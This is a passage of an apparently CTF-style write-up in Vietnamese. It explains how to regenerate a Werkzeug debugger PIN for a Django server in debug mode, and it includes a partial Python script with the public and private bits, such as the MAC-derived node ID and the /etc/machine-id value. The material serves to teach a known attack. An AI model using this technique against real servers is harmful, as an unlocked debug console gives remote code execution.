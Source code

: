 Về 3 thông tin còn lại, bài viết chỉ nói về [Flask](https://flask.palletsprojects.com/en/3.0.x/) mà ta lại gặp phải [Django](https://www.djangoproject.com/) nên không thể áp dụng được. Tuy nhiên, biết người biết ta, trăm trận trăm thắng, mình sẽ chạy Django với Werkzeug debug mode bật lên. Sử dụng chiến thuật "print2win", mình tìm source code tạo PIN của Werkzeug và nhét mấy lệnh `print()` vào (hàm `get_pin_and_cookie_name()` trong `..../python3.11/site-packages/werkzeug/debug/__init__.py`)

![](./img/18.png)

Chạy server Django với debug mode bật lên, ta sẽ thấy các thông tin được hiển thị

![](./img/19.png)

Từ đó ta suy ra các thông tin còn lại:

- `modname`: `django.contrib.staticfiles.handlers`
- `getattr(app, "__name__", type(app).__name__)`: `StaticFilesHandler`
- `getattr(mod, "__file__", None)`: `/usr/local/lib/python3.11/site-packages/django/contrib/staticfiles/handlers.py` (suy ra từ trang web thông báo lỗi)

    ![](./img/20.png)

Sử dụng đoạn script sau để tạo lại mã PIN

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'werkzeug',# username
    'django.contrib.staticfiles.handlers',# modname
    'StaticFilesHandler',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.11/site-packages/django/contrib/staticfiles/handlers.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485378285571',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'a7cbe35e-bae7-4544-b5f3-0068171268f4967e0e0070c8f5a54905b0da508bf2979f1cd7ae33ac2c427f1b726fb29be6d9'# get_machine_id(), /etc/machine-id
]

```